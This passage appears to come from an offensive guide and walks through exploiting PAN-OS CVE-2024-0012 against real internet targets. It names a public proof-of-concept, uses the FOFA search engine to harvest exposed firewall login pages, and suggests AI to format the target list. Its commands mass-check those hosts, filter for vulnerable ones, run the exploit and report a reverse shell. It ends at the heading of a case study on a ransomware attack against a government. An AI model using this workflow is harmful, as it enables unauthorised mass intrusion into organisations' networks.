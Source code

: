 ### Walkthrough 2: PAN-OS Exploit Chain

For this walkthrough, we'll use a fresh N-day vulnerability:

### Vulnerability Details
**CVE-2024-0012**  
PAN-OS Authentication Bypass → Remote Code Execution

**Step 1: Locate the Exploit**
1. Searched sploitus.com for the CVE
2. Found working PoC at:  
   [github.com/TalatumLabs/CVE-2024-0012_CVE-2024-9474_PoC](https://github.com/TalatumLabs/CVE-2024-0012_CVE-2024-9474_PoC)

**Step 2: Find Vulnerable Targets**
1. Create account on [en.fofa.info](https://en.fofa.info)
2. Search `"PanOS"`  
3. Filter results by:  
   - Title = "Login" (shows exposed firewalls/VPNS)
   - Country/port filters (optional)
4. Export results

**Step 3: Format Target List**
Convert results to this format (use AI or scripting):
```
https://1.1.1.1:4443/
https://2.2.2.2:443/
https://3.3.3.3:4443/
https://4.4.4.4:443/
```
Save as `ips.txt`

**Step 4: Mass Vulnerability Check**
Run the checker:  
```bash
python3 checker.py ips.txt --no-verify >> out.txt 2>&1
```

Monitor progress in second terminal:  
```bash
tail -f out.txt
```

After completion, extract vulnerable hosts:  
```bash
cat out.txt | grep 'is vuln'
```

**Step 5: Exploitation**
Execute the PoC against vulnerable targets:  
```bash
python3 poc.py target_url
```
**Result:** Reverse shell obtained

## 3. Case Study: Indonesian Government Ransomware Attack
